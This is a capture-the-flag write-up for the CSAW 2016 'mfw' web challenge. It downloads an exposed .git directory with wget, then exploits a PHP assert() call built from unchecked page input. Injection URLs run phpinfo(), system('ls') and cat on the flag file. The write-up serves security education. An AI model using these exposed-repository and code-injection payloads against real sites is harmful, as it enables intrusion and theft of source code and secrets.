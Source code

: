 # CSAW 2016 Quals
# mfw 
#### Cassandra Stavros -- USF Whitehatter's Computer Security Club
#### web -- 125 points
## Description

Hey, I made my first website today. It's pretty cool and web7.9.

http://web.chal.csaw.io:8000/

## Solution
The website gives us the following information:
I wrote this website all by myself in under a week!

I used:

* Git
* PHP
* Bootstrap
---
From the html source code, we can see that there is a hidden flag.php page:
![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804797/22dd372c-81ce-11e6-96b0-a034f3d2d970.jpg)

The website author also hints that he used the above sources to create the website. A quick check of the challenge website reveals that they used github as the source control repository. We can use the publically exposed .git/ directory to retreive the website source code:

    http://web.chal.csaw.io:8000/.git/

Information security professionals warn that publicly revealing a website's source code leaves it open to vulnerabilities (https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/).

We can use this publically exposed .git/ directory to retreive the website source code.
We used `wget` to download that .git/ directory (or use curl for Mac users):

    wget --mirror -I .git http://web.chal.csaw.io:8000/.git/
---
Now that we have the .git/ directory, we can explore the files in the Git repository. 

By typing in the following command we can get the status of proposed and deleted changes:

    $ git status | head -n 10
    
Which retrieves the following file statuses:

    deleted:    index.php
    deleted:    templates/about.php
    deleted:    templates/contact.php
    deleted:    templates/flag.php
    deleted:    templates/home.php
---

we ran `git checkout -- ` to obtain the source files from the git repo

Next, we looked  at the current files in the directory:

    $ ls

Which shows that the following files exist:

    index.php
    templates
---

We examined the index.php file and found that it used assert. We also discovered that the $file variable is created from unchecked user input, namely the $_GET['page']. We can use $file to command inject the assert statement.

    <?php

    $file = "templates/" . $page . ".php";

    // I heard '..' is dangerous!
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

    // TODO: Make this look nice
    assert("file_exists('$file')") or die("That file doesn't exist!");

    ?>

Per aaraonasterling on StackOverflow: 
>The rule of thumb which is applicable across most languages (all that I vaguely know) is that an assert is used to assert that a >condition is always true whereas an if is appropriate if it is conceivable that it will sometimes fail. (http://stackoverflow.com/questions/4516419/should-i-be-using-assert-in-my-php-code#4516444)

With this in mind, we knew the way to capture the flag was to use `assert` to our advantage. First we tried some system commands through the browser, such as `http://web.chal.csaw.io:8000/?page=home%27!=0);//` and retrieved the "Detected hacking attempt!" web page.

---    

Next we pulled up the phpinfo page by injecting by typing in the following commands into the browser window:

    http://web.chal.csaw.io:8000/?page=home%27).%20phpinfo();%20//

Which retrieved all of the information and configuration of the website:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18820566/aebaa8c0-836c-11e6-949e-5bfa89b3cade.jpg)

Success! we have injected the phpinfo(); command into the script sources on the live web page.

---

We then tried the `system()` call to launch commands on the machine and then We tried the `ls` command to list the directory contents with `view-source:http://web.chal.csaw.io:8000/?page=home%27).%20system(%22ls%20-lah%22);%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804401/47677144-81c8-11e6-9b6a-e766fa952723.png)

As we can see, the directory contains a .git/ folder, a templates/ folder and the index.php source.

---

We explored the templates/ folder by using `http://web.chal.csaw.io:8000/?page=home%27).%20system(%22ls%20-lah%20templates%22);%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804405/477075b4-81c8-11e6-9405-21acd8aee0db.png)

Within this directory we saw flag.php. We examined flag.php next.

---

Lastly, we used the cat command to print out the flag.php contents. We were still in the home directory, so we used the relative path `templates/flag.php` through `http://web.chal.csaw.io:8000/?page=home%27).%20system("cat%20templates/flag.php")%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804402/4769ba94-81c8-11e6-988d-3f066bad6cc6.png)
